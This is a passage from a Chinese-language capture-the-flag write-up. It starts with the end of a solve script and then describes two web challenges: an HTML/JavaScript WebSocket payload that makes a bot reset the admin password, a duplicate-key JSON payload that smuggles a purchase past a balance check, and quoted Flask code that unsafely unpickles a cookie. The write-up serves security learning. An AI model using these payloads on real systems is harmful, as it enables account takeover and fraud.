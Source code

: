 ``` python
        if v != 0:
            terms.append('1' if i == 0 else ('x' if i == 1 else f'x^{i}'))
    conn.send(' + '.join(terms))
    print(conn.recvline())  # Success!

if __name__ == '__main__':
    proof()
    for _ in range(40):
        solve()
    conn.interactive()
```

# Web
## babyweb-Web-44

这个 bot 的主要功能就是可以用 `bugreport http://host:port/login` 这条指令，让服务器访问这个网站。经过测试，它是可以运行 JavaScript 的。

然后发现 `admin` 已经被注册了，不过我们可以尝试修改它的密码，然后尝试登录。从题面的 `docker` 命令可以知道它在本地的端口是 `8888`，所以构造一个 html 文件，来向 127.0.0.1 发送修改密码指令：

```html
<html><body><script>
ws = new WebSocket('ws://127.0.0.1:8888/bot');
ws.onopen = function() {
	ws.send('changepw 123456');
}
</script></body></html>
```

然后修改完之后用 `admin` 和 `123456` 登录，就可以到一个购物小车的后台。然后发现只有 200$，买不了 flag。不过通过观察源码，可以知道购买的逻辑分布在两个不同的后端中，其中一个检查金钱够不够，另外一个将买到的东西加入到用户属性中。所以就可以尝试走私，让「检查金钱」的觉得不用买，通过检查，让「买东西」的可以成功买到东西。经测试，下面的 payload 可以成功走私：

``` json
{
    "product":[{"id":1,"num":0},{"id":2,"num":0}],
    "product":[{"id":1,"num":1},{"id":2,"num":1}]
}
```

## crash-Web-76

观察源码：

``` py
@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
         return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"
```
